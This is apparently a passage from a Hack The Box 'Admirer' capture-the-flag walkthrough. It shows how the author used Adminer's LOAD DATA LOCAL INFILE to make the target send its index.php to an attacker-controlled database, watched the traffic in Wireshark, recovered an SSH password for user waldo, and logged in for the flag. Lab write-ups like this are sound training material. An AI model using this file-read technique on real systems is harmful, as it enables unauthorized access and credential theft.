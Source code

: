 Recall previously in the FTP directory that we found the `index.php` file with a MySQL username and password? 

Let's try to read the live version of that file. 

First, we need to start a Wireshark session capturing on the HTB VPN tunnel. 

Then back on Adminer, run the following commands to try to insert `index.php` into the database we created. 

```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php'
INTO TABLE testdb.test
FIELDS TERMINATED BY "\n"
```

Once done, we see some traffic on WireShark from the remote server. We follow each TCP stream until we find the TCP stream for `index.php`. 

![906b463bfaf568f07273a14f9efa5b0b.png](/images/htb-admirer/f29c11d0959e4334afedc3f42abb8c8b.png)

We got our next set of credentials: `waldo:&<h5b~yK3F#{PaPB&dA}{H>`

Let's SSH to the server and grab the user flag. 
